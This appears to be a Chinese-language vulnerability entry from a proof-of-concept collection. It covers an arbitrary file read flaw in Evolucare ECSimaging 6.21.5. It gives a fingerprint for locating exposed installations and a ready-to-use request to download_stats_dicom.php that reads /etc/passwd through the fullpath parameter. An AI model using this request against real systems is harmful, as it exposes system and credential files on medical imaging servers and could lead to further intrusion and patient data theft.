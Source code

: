 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

# Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](/images/202205241445840.png)

验证POC

```
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![](/images/202205241445607.png)

